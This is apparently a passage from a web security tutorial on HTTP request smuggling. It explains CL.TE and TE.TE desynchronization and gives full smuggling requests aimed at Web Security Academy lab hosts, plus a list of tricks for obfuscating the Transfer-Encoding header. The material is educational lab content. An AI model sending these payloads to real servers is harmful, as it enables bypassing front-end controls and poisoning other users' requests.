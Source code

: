 The back-end server processes the `Content-Length` header and determines that the request body is 3 bytes long, up to the start of the line following `8`. The following bytes, starting with `SMUGGLED`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

```
POST / HTTP/1.1
Host: 0af3002f045e79278101346b00f400cf.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

#### TE.TE behavior: obfuscating the TE header <a href="#te-te-behavior-obfuscating-the-te-header" id="te-te-behavior-obfuscating-the-te-header"></a>

Here, the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
